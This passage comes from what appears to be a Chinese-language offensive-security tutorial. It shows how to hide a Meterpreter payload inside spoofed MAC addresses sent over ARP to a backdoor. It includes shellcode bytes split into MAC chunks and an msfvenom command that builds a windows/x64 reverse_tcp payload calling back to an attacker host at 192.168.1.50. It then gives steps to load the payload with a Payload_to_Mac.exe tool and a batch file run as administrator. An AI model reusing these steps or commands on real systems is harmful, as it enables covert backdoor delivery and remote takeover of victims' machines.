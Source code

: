 ``{`fc4883e4f0 + 000c4dabc000 + e8cc000000 + 4151415052`}` == fc4883e4f0000c4dabc000e8cc0000004151415052`

如图5所示，有红色标出的Mac地址，现在的payload是不正确的。

那么如何解决这个问题呢? 如图6所示

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01e461ddc8982381c1.png)

可以将payload从两个部分更改为三个部分：

`00`{`payload`}`——&gt;`{`payload`}`00 00 f0`

现在你可以检查后门代码中新的部分，当你收到一个没有第三部分的MAC地址，你的代码应该丢弃这个MAC地址。因为这是未知的响应，所以这不是有效payload。

现在可以开始利用工具进行攻击，但首先应该生成payload：在kali linux系统中，可以使用msfvenom来生成payload。其IP地址是192.168.1.50。

```
msfvenom –arch x86_64 –platform windows –p windows/x64/meterpreter/reverse_tcp lhsot=192.168.1.50 –f c &gt; /root/desktop/payload.txt
```

接下来将payload.txt用图7所示的格式，从linux系统复制到IP地址为 192.168.1.5的攻击机B

[![](https://p1.ssl.qhimg.com/t0159eec5c334a62681.png)](https://p1.ssl.qhimg.com/t0159eec5c334a62681.png)

使用Payload_to_Mac.exe工具：

现在使用图7中的payload和图8中的工具，这样就可以从payload.txt中复制payload，然后将其粘贴到工具Payload_to_Mac.exe上。

```
执行命令：
Payload_to_Mac.exe null payload
```

注意：这里需要以管理员身份运行cmd才能更改MAC地址。

不带选项运行工具的情况下，可以看到这个工具的命令选项说明。

[![](https://p1.ssl.qhimg.com/t01800a26695ad98297.png)](https://p1.ssl.qhimg.com/t01800a26695ad98297.png)

在下图中你将会看到我使用null+PAYLOAD的命令

[![](https://p2.ssl.qhimg.com/t01ad142793b1e469f1.png)](https://p2.ssl.qhimg.com/t01ad142793b1e469f1.png)

现在复制cmd中的所有行并粘贴到一个BAT文件中，例如图9所示Macchanger.BAT。同样地，也应该用管理员身份运行它。

在此步骤中，应该在第一行中添加如图9所示的MAC地址。

这个MAC地址是在我的代码中开始ARP传输的标志，所以应该手动添加这一行并保存。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0156b1eb337502da3c.png)

接下来这一步如图10在文件最后一行添加新行。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01f83930c3273962d8.png)
